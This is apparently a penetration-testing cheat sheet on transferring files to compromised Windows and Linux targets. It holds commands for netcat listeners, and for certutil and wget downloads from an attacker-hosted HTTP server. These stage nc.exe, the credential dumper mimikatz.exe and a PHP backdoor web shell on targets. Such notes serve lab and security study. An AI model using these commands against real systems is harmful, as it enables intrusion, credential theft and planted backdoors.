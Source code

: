 # Using Netcat

**Server setup and Netcat transfer**

```shell
cd /usr/share/windows-binaries

# We can then setup an HTTP server with Python within this directory
python -m SimpleHTTPServer 80
python3 -m http.server 80

# From the target Windows system, run via terminal the following command
certutil -urlcache -f http://<my_kali_IP>/nc.exe nc.exe

# Now that we have Netcat setup on both systems, we can setup a Netcat listener on the Kali Linux system
nc -nvlp 1234

# We can now connect to the Netcat listener from the Windows Target system using the command line
nc -nv <my_kali_IP> 1234
```

Netcat can also be used to transfer files between a listener and a client.

```shell
# To get started, we can create a file called test.txt on the Kali Linux system with some sample data by running the following command
echo "Hello, this was sent over with Netcat" >> test.txt

# We will now need to setup a Netcat listener on the recipient system, which in this case is the Windows system
nc.exe -nvlp 1234 > test.txt

# On the Kali Linux system, we will need to connect to the listener and send the contents of test.txt through the Netcat connection
nc -nv 10.0.27.35 1234 < test.txt
```

<br>

# Transferring Files to Windows Targets

```shell
# In this case, we will be transferring the mimikatz.exe executable found under the /usr/share/windows-resources/mimikatz/x64 directory on the Kali Linux system
cd /usr/share/windows-resources/mimikatz/x64

# We can then start a web server with Python3 in this directory
python3 -m http.server 80

# We can now navigate back to the meterpreter session on the target system, navigate to the C:\ drive and create the Temp directory
cd C:\\
mkdir Temp
cd Temp

shell

# We can now download the mimikatz.exe executable from the web server being hosted on the Kali Linux system 
certutil -urlcache -f http://<kali_IP>/mimikatz.exe mimikatz.exe
```

<br>

# Transferring Files to Linux Targets

```shell
# We will be transferring the php-backdoor.php file found under /usr/share/webshells/php/ directory on the Kali machine
cd /usr/share/webshells/php/
python3 -m http.server 80

# Navigate back to the command shell session on the target system and download the php-backdoor.php file from the web server being hosted on the Kali linux system
wget http://<kali_IP>/php-backdoor.php
```

<br>

# Useful file locations

- /usr/share/windows-resources/mimikatz/x64
- /usr/share/webshells/php/
